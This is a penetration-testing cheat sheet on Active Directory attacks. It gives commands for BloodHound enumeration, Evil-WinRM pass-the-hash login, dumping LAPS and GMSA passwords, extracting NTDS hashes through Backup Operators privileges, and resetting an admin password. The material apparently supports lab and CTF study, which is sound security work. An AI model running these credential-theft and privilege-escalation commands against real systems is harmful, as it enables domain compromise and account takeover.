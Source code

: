 # BloodHound
This is used to visualise AD environments and discover attack paths.

## Ingestors
### SharpHound
Data collector for BloodHound
[https://github.com/BloodHoundAD/SharpHound](https://github.com/BloodHoundAD/SharpHound)

### bloodhound.py
Python based data collection tool for BloodHound     
This will run against the domain, so can one run it from a remote machine.
```bash
bloodhound-python -u <username> -p <password> -d <domain> -c All -ns <nameserver>                
```
[https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)


## Useful info
- [https://bloodhound.readthedocs.io/en/latest/index.html](https://bloodhound.readthedocs.io/en/latest/index.html)
- [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)
- [https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)

# Evil-WinRM
Allows remote login to WinRM, if credentials are known.

## Usage
```bash
# With password
evil-winrm -i <ip> -u <user> -p <password>

# With Pass The Hash (NTLM)
evil-winrm -i <ip> -u <user> -H <hash>

# With private key and cert
evil-winrm -i <ip> -S -k <private_key> -c <certificate>
```

# LAPS
LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES       

When using LAPS, 2 new attributes appear in the computer objects of the domain: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Commands
```powershell
# Check if LAPS is activated
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## Dumping credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```

### References
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps)
- [https://www.crackmapexec.wiki/smb-protocol/defeating-laps](https://www.crackmapexec.wiki/smb-protocol/defeating-laps)
- [https://www.infosecmatter.com/crackmapexec-module-library/?cmem=ldap-laps](https://www.infosecmatter.com/crackmapexec-module-library/?cmem=ldap-laps)s



# Privileged groups
## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## AD support accounts
Often we have the credentials of limited administrative accounts such as `IT`, `helpdesk` or `support`. Sometimes, These accounts have an ability to reset the passwords.     
*Note that the wording of the account name might be different, but related to aforementioned privileges*

### RPC password reset
[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password)

```bash
setuserinfo2 <user> 23 <password>
```

## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files

```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### Get hashes from .dit file
```bash
# REMOTE

## Download .dit file (assuming evil-winrm is used)
download <database_file>

## Get system HIVE
reg.exe save hklm\system <destination>

# LOCAL (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```

### Scripts needed
- [https://github.com/k4sth4/SeBackupPrivilege](https://github.com/k4sth4/SeBackupPrivilege)

# GMSA and ReadGMSAPassword
Group Managed Service Accounts (GMSA) are where Windows servers manage the password for an account by generating a long random password for it.

## Get password
This solution is taken from: [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
```powershell
# Get the password
$gmsa = Get-ADServiceAccount -Identity <user> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

# Save the password to variables
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword


# !!!!
# Reset password of admin if the compromised user has GenericAll permissions
$cred = New-Object System.Management.Automation.PSCredential <user>, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <admin_user> -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'PASSWORD' -force)} -Credential $cred
```

### References
- [https://aadinternals.com/post/gmsa/](https://aadinternals.com/post/gmsa/)
- [https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
- [https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-7.0](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-7.0)